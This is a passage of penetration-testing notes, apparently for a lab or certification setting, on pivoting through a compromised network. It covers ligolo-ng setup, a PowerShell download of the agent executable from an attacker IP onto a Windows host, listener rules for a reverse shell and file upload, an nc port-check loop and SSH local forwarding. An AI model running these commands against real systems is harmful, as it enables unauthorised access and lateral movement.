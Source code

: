    3. start ligolo

      ```
      ./ligolo-ng_proxy_0.4.3_linux64 -selfcert
      ```

      

2. Windows

   ```
   iwr -uri 192.168.45.195:8080/Tunnelling/ligolo-ng_agent_0.4.3_win64.exe -Outfile ligolo-ng_agent_0.4.3_win64.exe
   ```

   ```
   ligolo-ng_agent_0.4.3_win64.exe -connect 192.168.45.195:11601 -ignore-cert
   ```

3. Kali - ligolo

   ```
   session
   start
   ```



Create Listeners

- reverse shell

  ```
  listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
  listener_list
  ```

- upload file

  ```
  listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
  ```




Test Port Forwarding / Tunneling Quality

```shell
IP="10.10.136.152"; PORT=445; TIMEOUT=5;SLEEP=20;while true; do echo "================================="; date;timeout $TIMEOUT nc -nvz $IP $PORT || echo -e "no connection to $IP $PORT";sleep $SLEEP;done
```



### SSH



#### Local Port Forward

On kali

```
ssh -N -L [bind_address:]port:host:hostport [username@address]
sudo ssh -N -L <Local_IP/0.0.0.0>:<Local_Port>:<Remote_IP>:<Remote_Port> user@IP
sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
```
